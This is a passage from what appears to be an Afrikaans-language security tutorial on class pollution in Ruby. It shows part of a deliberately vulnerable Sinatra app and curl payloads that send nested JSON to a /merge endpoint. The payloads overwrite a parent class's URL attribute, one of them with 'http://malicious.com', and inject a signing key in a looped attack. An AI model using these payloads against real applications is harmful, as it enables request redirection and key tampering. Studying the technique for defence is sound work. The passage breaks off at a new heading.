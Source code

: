 ```ruby
{ status: 'HTTP request made', url: url, response_body: response.body }.to_json
else
{ status: 'Failed to access URL variable' }.to_json
end
end

# Curl command to infect User class URL:
# curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"url":"http://example.com"}}}' http://localhost:4567/merge

# GET /sign_with_subclass_key - Signs data using the signing key stored in KeySigner
get '/sign_with_subclass_key' do
content_type :json

# This gadget signs data using the signing key stored in KeySigner class
signer = KeySigner.new
signed_data = signer.sign(KeySigner.signing_key, "data-to-sign")

{ status: 'Data signed', signing_key: KeySigner.signing_key, signed_data: signed_data }.to_json
end

# Curl command to infect KeySigner signing key (run in a loop until successful):
# for i in {1..1000}; do curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"superclass":{"subclasses":{"sample":{"signing_key":"injected-signing-key"}}}}}}' http://localhost:4567/merge; done

# GET /check-infected-vars - Check if all variables have been infected
get '/check-infected-vars' do
content_type :json

{
user_url: Person.url,
signing_key: KeySigner.signing_key
}.to_json
end

run! if app_file == $0
end
```
### Giftige Ouer Klas

Met hierdie payload:
```bash
curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"url":"http://malicious.com"}}}' http://localhost:4567/merge
```
Dit is moontlik om die waarde van die **`@@url`** attribuut van die ouer klas **`Person`** te wysig.

### **Besoedeling van Ander Klasse**

